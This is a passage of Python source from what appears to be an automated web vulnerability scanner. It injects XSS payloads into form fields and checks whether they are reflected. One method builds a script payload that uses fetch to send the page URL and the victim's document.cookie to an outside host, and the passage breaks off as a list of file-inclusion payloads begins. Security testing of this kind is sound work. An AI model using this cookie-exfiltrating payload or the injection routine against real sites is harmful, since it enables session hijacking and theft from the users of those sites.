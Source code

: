 ```python
        
        # Test forms for XSS
        for form in self.forms[:3]:  # Limit for demo
            form_action = urljoin(self.target_url, form['action'])
            
            for payload in xss_payloads[:3]:  # Test first 3 payloads
                form_data = {}
                for input_field in form['inputs']:
                    if input_field['name'] and input_field['type'] != 'hidden':
                        form_data[input_field['name']] = payload
                
                try:
                    if form['method'] == 'POST':
                        response = self.session.post(form_action, data=form_data, timeout=10)
                    else:
                        response = self.session.get(form_action, params=form_data, timeout=10)
                    
                    # Check if payload is reflected in response
                    if payload in response.text:
                        vuln_info = f"XSS vulnerability in form at {form_action}"
                        self.vulnerabilities.append(vuln_info)
                        print(f"  [!] {vuln_info}")
                        
                        # Test payload against target site
                        self.test_xss_payload(payload)
                        break
                        
                except requests.RequestException:
                    continue
        
        print(f"  Tested XSS on {len(self.forms)} forms")
    
    def test_xss_payload(self, payload):
        """Test XSS payload against target site"""
        try:
            # Create payload that sends data to our test site
            advanced_payload = f"""
            <script>
            fetch('{self.test_site}', {{
                method: 'POST',
                body: JSON.stringify({{
                    'xss_test': true,
                    'payload': '{payload}',
                    'timestamp': new Date().toISOString(),
                    'url': window.location.href,
                    'cookies': document.cookie
                }}),
                headers: {{'Content-Type': 'application/json'}}
            }});
            </script>
            """
            
            print(f"    [+] Advanced XSS payload prepared for testing")
            
        except Exception as e:
            print(f"    [-] Error testing XSS payload: {e}")
    
    def test_file_inclusion(self):
        """Test for Local and Remote File Inclusion vulnerabilities"""
        print("\n[+] Testing file inclusion...")
        
        # LFI payloads
        lfi_payloads = [
```